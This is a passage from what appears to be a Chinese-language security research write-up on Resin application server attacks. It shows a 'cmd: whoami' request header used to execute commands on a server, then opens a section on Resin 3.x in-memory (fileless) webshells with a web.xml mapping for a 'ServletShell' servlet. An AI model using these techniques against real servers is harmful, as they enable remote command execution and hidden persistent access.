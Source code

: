 使用方法

```http
cmd: whoami
```

测试效果

![image-20220105191416860](resinEcho.assets/image-20220105191416860.png)



### 0x05 Resin 内存马

#### Resin 3.x

> 内存马相关实现、本地测试版本：resin v3.1.16

##### WebApp

> 当前代码运行时上下文环境

配置`web.xml`

```xml
<servlet>
    <servlet-name>ServletShell</servlet-name>
    <servlet-class>com.example.general.ServletShell</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>ServletShell</servlet-name>
    <url-pattern>/index</url-pattern>
</servlet-mapping>
```

`com.example.general.ServletShell#doGet`方法处断点，获得相关的调用栈如下

![image-20220106131156977](resin-fileless-shell.assets/image-20220106131156977.png)
